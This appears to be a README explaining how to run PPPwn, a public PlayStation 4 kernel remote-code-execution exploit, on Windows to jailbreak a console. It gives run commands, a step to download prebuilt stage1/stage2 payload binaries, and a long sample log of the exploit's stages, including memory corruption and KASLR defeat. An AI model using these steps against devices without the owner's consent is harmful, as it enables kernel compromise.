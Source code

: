 # PPPwn - PlayStation 4 PPPoE RCE - Windows 10/11 Instructions

Learn how to use PPPwn on Windows 10/11 without installing Virtualbox or using WSL (Windows Subsystem For Linux).

# What is it?

PPPwn is a kernel remote code execution exploit for PlayStation 4 developed by The Flow. It works up to firmware 11.00. The official repo is maintained here : https://github.com/TheOfficialFloW/PPPwn

Supported PS4 versions are:
- FW 9.00
- FW 9.03/9.04
- FW 9.50 / 9.60
- FW 10.00/10.01
- FW 10.50 / 10.70 / 10.71
- FW 11.00

## Homebrew Status

These instructions will enable GoldHen on 9.00 only right now.  You can also follow the project by [LM](https://github.com/LightningMods/PPPwn). 

## Requirements

In order to get started, you'll need the following items. Make sure to install all the applications listed before proceeding.

- Computer with Ethernet port (USB adapter also works)
- Ethernet cable connected to your PC/PS4
- [Python 3](https://www.python.org/downloads/)
- [Git for Windows](https://git-scm.com/download/win)
- [NPCap 1.79](https://npcap.com/#download)

## Usage

1. On your computer, navigate to a folder where you'd like to store the exploit. 

  Now clone the repository:
  
  ```sh
  git clone --recursive https://github.com/TheOfficialFloW/PPPwn
  ```

2. Install the requirements:

  ```sh
  pip install -r requirements.txt
  ```

3. Download the  `PPPwn.rar` from [here](https://github.com/mbcrump/PPPwn-Windows-Instructions/blob/main/compiled-binaries/PPPwn.rar) site and copy the `stage1` and `stage2` folder to where you installed the exploit overwritting any files.

4. Inside the `PPPwn.rar`, you'll find a `usb` directory followed by a `payload.bin` file. Copy the `payload.bin` file to a USB Drive and insert it into your PS4. Note this is only for 9.00. 

5. Run the exploit:

  ```sh
  python3 pppwn.py --interface=Ethernet --fw=900
  ```

For other firmwares, e.g. FW 9.03, pass `--fw=903`.

6. On your PS4:

  - Go to `Settings` and then `Network`
  - Select `Set Up Internet connection` and choose `Use a LAN Cable`
  - Choose `Custom` setup and choose `PPPoE` for `IP Address Settings`
  - Enter anything for `PPPoE User ID` and `PPPoE Password`
  - Choose `Automatic` for `DNS Settings` and `MTU Settings`
  - Choose `Do Not Use` for `Proxy Server`
  - Click `Test Internet Connection` to communicate with your computer

If the exploit fails or the PS4 crashes, you can skip the internet setup and simply click on `Test Internet Connection`. If the `pppwn.py` script is stuck waiting for a request/response, abort it and run it again on your computer, and then click on `Test Internet Connection` on your PS4.

If the exploit works, you should see an output similar to below, and you should see `Cannot connect to network.` followed by `PPPwned` printed on your PS4.

### Video Tutorial

[![Step-by-step tutorial](https://img.youtube.com/vi/-_hu8sdxV9U/0.jpg)](https://www.youtube.com/watch?v=-_hu8sdxV9U)

### Sample Run

```sh
D:\PS4\exploit\PPPwn>python3 pppwn.py --interface=Ethernet --fw=900
[+] PPPwn - PlayStation 4 PPPoE RCE by theflow
[+] args: interface=Ethernet fw=900 stage1=stage1/stage1.bin stage2=stage2/stage2.bin
[+] STAGE 0: Initialization
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffa01507996400
[+] Target MAC: x
[+] Source MAC: 07:64:99:07:15:a0
[+] AC cookie length: 0x4e0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Waiting for interface to be ready...
[+] Target IPv6: fe80::729e:29ff:fea6:5ae4
[+] Heap grooming...done

[+] STAGE 1: Memory corruption
[+] Pinning to CPU 0...done
[*] Sending malicious LCP configure request...
[*] Waiting for LCP configure reject...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[+] Scanning for corrupted object...found fe80::0219:4141:4141:4141

[+] STAGE 2: KASLR defeat
[*] Defeating KASLR...
[+] pppoe_softc_list: 0xffffffffd2e299f8
[+] kaslr_offset: 0x4ea3c000

[+] STAGE 3: Remote code execution
[*] Sending LCP terminate request...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffa01507996400
[+] Target MAC: x
[+] Source MAC: 03:26:3d:d1:ff:ff
[+] AC cookie length: 0x511
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Triggering code execution...
[*] Waiting for stage1 to resume...
[*] Sending PADT...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffa01507995600
[+] Target MAC: x
[+] AC cookie length: 0x0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...

[+] STAGE 4: Arbitrary payload execution
[*] Sending stage2 payload...
[+] Done!

D:\PS4\exploit\PPPwn>
```
